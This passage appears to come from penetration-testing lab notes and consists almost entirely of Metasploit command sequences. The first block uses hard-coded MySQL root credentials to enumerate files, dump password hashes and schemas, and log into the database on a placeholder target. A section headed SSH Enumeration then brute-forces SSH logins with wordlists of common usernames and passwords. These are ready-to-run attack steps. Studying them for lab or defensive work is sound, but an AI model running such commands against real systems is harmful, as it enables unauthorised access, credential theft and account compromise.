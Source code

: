 ```shell
info
set PASSWORD twinkle
set USERNAME root
run

set SQL show databases;
run
set SQL use videos;
run

use auxiliary/scanner/mysql/mysql_file_enum
set USERNAME root
set PASSWORD twinkle
set RHOSTS <target_IP>
set FILE_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
set VERBOSE true
run

use auxiliary/scanner/mysql/mysql_hashdump
run

auxiliary/scanner/mysql/mysql_schemadump
run

use auxiliary/scanner/mysql/mysql_writable_dirs
set DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
run

exit # Exit from Metasploit framework.

mysql -h <target_IP> -u root -p
# Press enter and write the password
# Now we have access to the database
show databases;
show tables;
exit
```

### 2.6. SSH Enumeration

```shell
# Start PostgreSQL and Metasploit
service postgresql start
msfconsole

# Create workspace and set target IP
workspace -a SSH_ENUM
setg RHOSTS <target_IP>
setg RHOST <target_IP>

# Enumerate SSH version
use auxiliary/scanner/ssh/ssh_version
run

# Brute-force SSH login
use auxiliary/scanner/ssh/ssh_login
set USERS_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
set VERBOSE false
run

# Check sessions and interact
sessions
```